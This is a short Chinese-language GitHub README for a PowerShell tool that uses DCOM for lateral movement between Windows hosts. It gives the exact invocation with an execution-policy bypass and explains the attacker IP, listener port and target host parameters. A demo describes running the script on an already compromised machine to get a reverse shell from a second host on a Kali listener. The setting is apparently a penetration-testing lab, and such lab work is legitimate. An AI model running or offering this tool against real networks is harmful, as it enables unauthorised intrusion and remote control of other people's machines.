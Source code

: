 # Dcom-LateralMovement
利用DCOM进行横向移动的脚本

使用方法：

powershell -ep bypass -c ".\dcom.ps1 lhost lport rhost"

例：

powershell -ep bypass -c ".\dcom.ps1 192.168.45.195 3333 192.168.195.72"


lhost：攻击机IP

lport：攻击机的监听端口

rhost：要横向移动到的目标靶机的IP

演示案例：

我们已经获得192.168.50.74 - client74的控制权限

想要横向移动到192.168.50.72 - web04主机

1. 在kali开启监听
![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/0e7de4a5-9432-4bd6-b367-19907aa35850)
2. 在client74中运行脚本，kali收到来自web04的shell
![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/a20e96ed-d847-42dc-8519-93740c11e556)


